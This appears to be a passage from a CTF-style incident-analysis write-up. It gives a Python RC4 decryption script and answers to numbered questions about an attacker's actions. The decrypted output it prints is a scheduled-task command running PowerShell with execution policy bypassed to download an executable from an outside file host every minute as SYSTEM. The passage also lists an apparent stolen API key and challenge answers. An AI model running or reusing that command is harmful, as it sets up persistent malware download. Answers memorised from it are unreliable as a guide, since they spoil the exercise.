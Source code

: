     def rc4_crypt(data: bytes, key: bytes) -> bytes:
        S = list(range(256))
        j = 0
        for i in range(256):
            j = (j + S[i] + key[i % len(key)]) % 256
            S[i], S[j] = S[j], S[i]
    
        i = j = 0
        out = bytearray()
        for byte in data:
            i = (i + 1) % 256
            j = (j + S[i]) % 256
            S[i], S[j] = S[j], S[i]
            K = S[(S[i] + S[j]) % 256]
            out.append(byte ^ K)
        return bytes(out)
    
    def main():
        if len(sys.argv) != 2:
            print("Usage: python decrypt_rc4.py <Base64Input>")
            sys.exit(1)
    
        b64_input = sys.argv[1]
        try:
            encrypted_bytes = base64.b64decode(b64_input)
        except Exception as e:
            print("Invalid Base64 input:", e)
            sys.exit(1)
    
        decrypted_bytes = rc4_crypt(encrypted_bytes, key_bytes)
    
        try:
            print("[+] Decrypted text:", decrypted_bytes.decode("utf-8"))
        except UnicodeDecodeError:
            print("[+] Decrypted bytes (non-UTF8):", decrypted_bytes)
    
    if __name__ == "__main__":
        main()
    

Back to question 5 about the name of the scheduled task:


    [+] Decrypted text: schtasks /create /tn Synchronization /tr "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://www.mediafire.com/view/wlq9mlfrl0nlcuk/rakalam.exe/file -OutFile C:\Temp\rakalam.exe" /sc minute /mo 1 /ru SYSTEM

Answer:

    Synchronization

Question 6: API key discovered by the attacker


![](https://i.imgur.com/bEqE9HY.png)


Answer:

    sk-3498fwe09r8fw3f98fw9832fw


